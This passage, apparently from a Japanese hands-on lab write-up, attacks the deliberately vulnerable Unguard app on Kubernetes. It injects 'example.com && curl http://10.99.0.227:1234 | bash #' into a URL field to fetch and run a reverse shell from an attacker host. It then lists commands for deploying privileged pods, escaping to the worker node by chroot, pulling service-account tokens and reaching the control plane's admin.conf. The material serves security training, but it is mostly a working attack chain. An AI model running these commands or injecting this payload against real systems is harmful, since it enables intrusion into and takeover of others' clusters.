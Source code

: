 EC2 のローカル環境を攻撃サーバーに見立て、リバースシェルで待ち受けます。

```bash
[attack-server]: ./curlshell.py --listen-port 1234
```

Web UI 上で、「Share Image」タブのURL入力欄に以下を入力して投稿します。IPアドレスにはEC2のプライベートIPアドレスを入力してください。

```bash
example.com && curl http://10.99.0.227:1234 | bash #
```

![unguard-attack](./images/unguard-attack.png)

画面上は処理がフリーズして見えますが、攻撃サーバーでシェルを取ることに成功しています。

```bash
[unguard-proxy-service]: cat /etc/hostname
unguard-proxy-service-5b84d8dd85-xz2rr
```

![k8s-diagram-02](./images/k8s-diagram-02.png)


[unguard-proxy-service]: cd /tmp/
[unguard-proxy-service]: curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
[unguard-proxy-service]: chmod +x kubectl
[unguard-proxy-service]: echo "
[unguard-proxy-service]: ./kubectl auth whoami --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig | grep unguard
[unguard-proxy-service]: ./kubectl get po -A --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get no --kubeconfig kubeconfig
[unguard-proxy-service]: echo '
[unguard-proxy-service]: ./kubectl apply -f pod.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-1 -- bash
[attack-pod-1]: cat /etc/hostname
[attack-pod-1]: ls /
[attack-pod-1]: ls /host-system
[attack-pod-1]: chroot /host-system bash
[worker-node]: cat /etc/hostname
[worker-node]: cd /tmp/
[worker-node]: crictl ps
[worker-node]: crictl inspect 9280e4f6f7f8f | grep -A 2 -m 1 /var/run/secrets/kubernetes.io/serviceaccount
[worker-node]: sa_path=/var/lib/kubelet/pods/ab46f469-a60c-4588-9d21-3a713174b101/volumes/kubernetes.io~projected/kube-api-access-b6x66
[worker-node]: echo "
[worker-node]: kubectl auth whoami --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig
[worker-node]: kubectl get no --kubeconfig kubeconfig kind-control-plane -o yaml
[worker-node]: exit
[attack-pod-1]: exit
[unguard-proxy-service]: echo '
[unguard-proxy-service]: ./kubectl apply -f pod2.yaml --kubeconfig kubeconfig
[unguard-proxy-service]: ./kubectl get po -n unguard --kubeconfig kubeconfig -o wide | grep attack
[unguard-proxy-service]: ./kubectl exec -it -n unguard --kubeconfig kubeconfig attack-pod-2 -- bash
[attack-pod-2]: cat /etc/hostname
[attack-pod-2]: ls /
[attack-pod-2]: chroot /host-system bash
[control-plane]: cat /etc/hostname
[control-plane]: ls /etc/kubernetes/
[control-plane]: kubectl auth whoami --kubeconfig /etc/kubernetes/admin.conf
[control-plane]: kubectl get pod -A --kubeconfig /etc/kubernetes/admin.conf